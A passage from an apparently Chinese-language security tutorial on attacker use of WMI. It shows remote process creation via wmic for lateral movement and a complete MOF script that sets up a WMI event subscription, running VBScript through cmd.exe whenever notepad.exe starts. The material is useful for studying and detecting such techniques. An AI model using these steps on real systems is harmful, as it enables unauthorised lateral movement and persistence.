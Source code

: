 ```
$ wmic /node: "192.168.1.10" /username:domainuser /password:pwd process call create 'notepad.exe' Executing (Win32_Process)-&gt;Create() Method execution successful. Out Parameters: instance of __PARAMETERS `{`              ProcessId = 5176;
```

当攻击者需要从一台主机横向移动到另一台主机时，这无疑来说是一个简单的方式，因为不需要再像PSExec一样将工具放入目标主机中。

**<br>**

**Hook Windows事件**

接下来，我们来聊一下MOF脚本。简而言之，MOF脚本是通过mofcomp.exe程序编译后产生的文件，通过它可以调用WMI的一些功能。

借助MOF脚本，我们可以定时执行指定的命令，其使用如下：

**__EventConsumer： 执行什么内容**

**__EventFilter： 什么时间执行**

** __FilterToConsumerBinding： 绑定执行内容与执行时间**

特别说明的一点是，Event Consumer可以执行VB脚本，例如：

```
instance of ActiveScriptEventConsumer as $Cons `{`          Name = "ASEC";          ScriptingEngine = "VBScript";          ScriptText =              "Set objShell = CreateObject("WScript.Shell") n"               "objShell.Exec("c:\windows\system32\cmd.exe /c echo MOF Script Output&gt;c:\mof_output.txt")n"; `}`;
```

Event Consumer可以执行Windows命令行，并通过VB脚本输出文件。

下面是一个Event Filter的例子：

```
instance of __EventFilter as $Filt `{`          Name = "EF";          EventNamespace = "root\cimv2";          QueryLanguage = "WQL";          Query = "SELECT * FROM __InstanceCreationEvent "                   "WITHIN 2 WHERE TargetInstance ISA 'Win32_Process' "                  "AND TargetInstance.Name = 'notepad.exe'"; `}`;
```

Event Filter使用了一种名为WQL（WMI查询语言）的语言。这种语言可以用来Hook不同的系统事件。在这种情况下，我们定义了“何时触发”，在发生实例创建事件时，可以被读取。在本例中，我们寻找的是一个名为“notepad.exe”的Wind32_Process类实例创建事件。

这是一个用来Hook Create Process调用的简单方法，攻击者可以查看特定的进程，随后执行某些操作，例如结束进程。

下面，让我们看看如何将执行内容与执行时间相绑定：

```
instance of __FilterToConsumerBinding `{`          Filter = $Filt;          Consumer = $Cons; `}`;
```

最终的MOF脚本是这样的：

```
#pragma namespace ("\\.\root\subscription")   instance of ActiveScriptEventConsumer as $Cons `{`          Name = "ASEC";          ScriptingEngine = "VBScript";          ScriptText =              "Set objShell = CreateObject("WScript.Shell") n"               "objShell.Exec("c:\windows\system32\cmd.exe /c echo MOF Script Output&gt;c:\mof_output.txt")n"; `}`;   instance of __EventFilter as $Filt `{`          Name = "EF";          EventNamespace = "root\cimv2";          QueryLanguage = "WQL";          Query = "SELECT * FROM __InstanceCreationEvent "                   "WITHIN 2 WHERE TargetInstance ISA 'Win32_Process' "                  "AND TargetInstance.Name = 'notepad.exe'"; `}`;   instance of __FilterToConsumerBinding `{`          Filter = $Filt;          Consumer = $Cons; `}`;
```

